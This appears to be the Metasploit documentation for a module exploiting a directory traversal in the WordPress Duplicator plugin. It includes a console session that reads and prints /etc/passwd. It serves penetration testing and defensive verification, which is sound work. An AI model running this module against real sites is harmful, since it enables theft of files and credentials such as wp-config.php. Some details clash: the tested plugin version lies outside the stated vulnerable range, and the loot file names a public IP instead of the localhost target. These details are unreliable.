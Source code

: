 ## Vulnerable Application
The issue is being actively exploited, and allows attackers to download arbitrary files, such as the wp-config.php file.
This module exploits an unauthenticated directory traversal vulnerability in WordPress plugin "Duplicator" plugin version 1.3.24-1.3.26,
allowing arbitrary file read with the web server privileges.
This vulnerability was being actively exploited when it was discovered.

Changelog : https://snapcreek.com/duplicator/docs/changelog/

Vulnerable version: [duplicator.1.3.24.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.24.zip),
[duplicator.1.3.26.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip)

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/scanner/http/wp_duplicator_file_read`
3. Set the `RHOSTS`
4. Set the `RPORT`
5. Run the exploit: `run`


## Options

## Scenarios


Ubuntu 20.04 running WordPress 5.6, Duplicator 1.2.6

```
msf5 > use auxiliary/scanner/http/wp_duplicator_file_read
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
FILEPATH => /etc/passwd
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set DEPTH 5
DEPTH => 5

msf5 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:110::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:111:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
lightdm:x:110:115:Light Display Manager:/var/lib/lightdm:/bin/false
cups-pk-helper:x:111:118:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:113:119::/nonexistent:/bin/false
kernoops:x:114:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:115:121::/var/lib/saned:/usr/sbin/nologin
pulse:x:116:122:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:117:124:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:118:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/var/run/hplip:/bin/false
debian-tor:x:120:126::/var/lib/tor:/bin/false
iodine:x:121:65534::/var/run/iodine:/usr/sbin/nologin
thpot:x:122:65534:Honeypot user,,,:/usr/share/thpot:/dev/null
postfix:x:123:128::/var/spool/postfix:/usr/sbin/nologin
nm-openvpn:x:124:130:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
statd:x:125:65534::/var/lib/nfs:/usr/sbin/nologin
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
nm-openconnect:x:127:131:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin
geoclue:x:128:135::/var/lib/geoclue:/usr/sbin/nologin
nxpgsql:x:1001:1001:NeXpose PostgreSQL User:/opt/rapid7/nexpose/nsc/nxpgsql:/bin/sh
mysql:x:129:136:MySQL Server,,,:/nonexistent:/bin/falselsadm:x:999:999:lsadm:/:/sbin/nologin
jenkins:x:131:138:Jenkins,,,:/var/lib/jenkins:/bin/bash
libvirt-qemu:x:64055:139:Libvirt Qemu,,,:/var/lib/libvirt:/usr/sbin/nologin
libvirt-dnsmasq:x:132:142:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/usr/sbin/nologin
test:x:1002:1003:,,,:/home/test:/bin/bash
ftp:x:133:143:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
gdm:x:134:144:Gnome Display Manager:/var/lib/gdm3:/bin/fals

[+] File saved in: /root/.msf4/loot/20201211005722_default_13.250.118.98_duplicator.trave_383073.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
